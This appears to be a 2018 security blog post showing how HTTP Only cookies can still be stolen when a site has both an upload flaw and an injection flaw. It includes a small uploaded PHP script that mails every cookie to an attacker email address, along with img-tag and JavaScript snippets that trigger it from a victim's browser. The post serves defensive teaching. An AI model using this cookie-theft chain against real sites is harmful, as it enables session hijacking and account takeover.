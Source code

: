 ```yaml
---
title: HTTP Only Cookies Aren't Perfectly Secure
date: 2018-12-10
tags:
- php
- javascript
- security
---
```

When you're creating cookies on your server side application, it's good security practice to flag the cookie as HTTP Only.  This way, it instructs the browser that it should sandbox this cookie from the client side scripts.  It still will send it between client and server on each subsequent request, but javascript can't access it directly.

<!--more-->

With most things, one single mechanism isn't the only way to secure your website.  Security is multi layer in depth strategies.  That's important to understand when you are using HTTP Only cookies.

**Before you continue: please understand that this is a very contrived example. It's meant to demonstrate the possibility. It's not likely, but it's possible.**

It's still possible to steal HTTP Only cookies from your website. It's just not that easy and requires multiple vulnerabilities in your code - not just client side script injection.

### How to Steal HTTP Only Cookie

Let's look at our code that sets our cookie in our PHP server / backend application.

**`index.php`**
```php
<?php
setcookie('my-cookie', 'the value', 0, "", "", false, true);

// more code here
```

The last `true` indicates that we want to have this cookie as HTTP Only.  To verify this, I can open up my dev tools and type `window.cookie` which will return `undefined` in this example.

Next, we need to have a vulnerability that allows users to upload PHP scripts.  You might say "well if they can access PHP, they can already do a bunch of other things anyway!"  That's not true. You might have your user uploads properly secluded from the rest of your application.  Let's create a PHP file that we trick into the user uploads to run as an application.  (For this contrived example, it'll be a plain PHP file. It's possible with other vulnerabilities and misconfigurations to get image files to run as PHP, etc.)

**`/uploads/uuid-here/hacker.php`**
```php
<?php
mail('hacker@gmail.com', 'An HTTP only cookie', var_export($_COOKIE, true));
```

Since this is on the same server, it will be served with the HTTP only cookie by the browser.

The last step is to inject a request to this application the same way you'd do some client side script injection.

If you can inject HTML, you might try this:

```html
<img src="/uploads/uuid-here/hacker.php">
```

If you are unable to do that, you can still use Javascript with `fetch()` or, if you're a fan of the image, you can do this:

```javascript
var i = new Image();
i.src="/uploads/uuid-here/hacker.php";
```

### End Notes

Again, like I said, it's not easy. It would require two vulnerabilities or misconfigurations. However, it _is_ possible to steal an HTTP Only cookie.